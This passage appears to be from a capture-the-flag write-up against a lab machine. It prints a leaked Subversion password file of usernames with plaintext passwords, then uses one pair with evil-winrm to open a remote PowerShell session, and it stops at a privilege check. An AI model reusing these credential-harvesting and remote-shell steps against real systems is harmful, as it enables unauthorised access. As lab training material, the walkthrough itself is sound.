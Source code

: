 ```powershell
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
```

We can get user now as robsil with its credentials as robsil.

```powershell

./evil-winrm.rb -u robisl -p wolves11 -i 10.10.10.203                                                                                                                                                                                1 ⨯

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\robisl\Documents> id
uid=197938(robisl) gid=197121 groups=197121
*Evil-WinRM* PS C:\Users\robisl\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------
```